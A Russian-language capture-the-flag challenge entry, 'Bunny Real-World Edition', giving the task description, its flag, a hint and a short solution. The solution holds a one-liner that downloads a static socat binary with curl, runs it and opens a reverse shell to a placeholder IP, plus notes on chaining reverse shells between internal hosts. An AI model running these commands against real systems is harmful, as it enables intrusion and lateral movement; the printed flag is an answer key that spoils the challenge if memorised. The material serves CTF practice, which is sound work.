 # Название: Bunny Real-World Edition
## Описание:
А что, если забрать рут-доступ и установить минимальный образ? Проникновение в сеть заканчивается?  
P.S. Флаг в / (корневой) директории.
### Флаг: 
CTF{bunny_buffed_edition_841266c2cb}
### Хинт:
root не надо получать! https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64 - выбирай на любой вкус что нужно
(и помни, что если на внутренних тачках инета нету, то используй `python3 -m http.server`)
### Решение:
Используем socat
Listen: socat file:`tty`,raw,echo=0 tcp-listen:4444
Connect: curl https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -o sct; chmod +x sct; ./sct exec:'sh -li',pty,stderr,setsid,sigint,sane tcp:IP_HERE:7777

Проходим по тачкам (пробрасываем один реверс шелл в другой) сокатом, скачивая его с помощью `python3 -m http.server`. 
nmap так же можно скачать со ссылки в хинте, ip a работает и так (если бы не работало то качаем busybox static)